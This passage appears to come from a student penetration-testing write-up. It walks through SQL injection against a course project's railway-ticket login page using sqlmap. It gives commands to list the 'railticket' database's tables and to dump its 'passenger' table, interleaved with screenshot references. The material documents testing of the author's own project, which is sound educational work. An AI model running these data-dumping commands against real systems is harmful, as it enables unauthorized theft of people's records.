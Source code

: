 ![Databases](https://github.com/AbuHanifSiam/SQLi-Injection-Testing-on-a-Website/blob/d2980f3745beaba8900d027c0d00b147aaaf16d5/SQLi%20Pentest/Picture10.png)

*Fig:3.3.3*

We got all the details about the database (fig:3.3.3). To get more information about the user we can search for table names and data into those tables. First to findout all the table names of a database, run:	
```
sqlmap -u http://198.168.213.130/CSE370_Project-main/signin.php --data="phone=123456&password=anything" -D railticket –tables
```
![Table Names](https://github.com/AbuHanifSiam/SQLi-Injection-Testing-on-a-Website/blob/d2980f3745beaba8900d027c0d00b147aaaf16d5/SQLi%20Pentest/Picture11.png)

*Fig: 3.3.4*

This will give all the table available in dataset “railticket” (Fig: 3.3.4). To get the data from one of those tables, run:
```
sqlmap -u http://198.168.213.130/CSE370_Project-main/signin.php --data="phone=123456&password=anything" -D railticket -T passenger –dump
```
![Details](https://github.com/AbuHanifSiam/SQLi-Injection-Testing-on-a-Website/blob/d2980f3745beaba8900d027c0d00b147aaaf16d5/SQLi%20Pentest/Picture12.png)
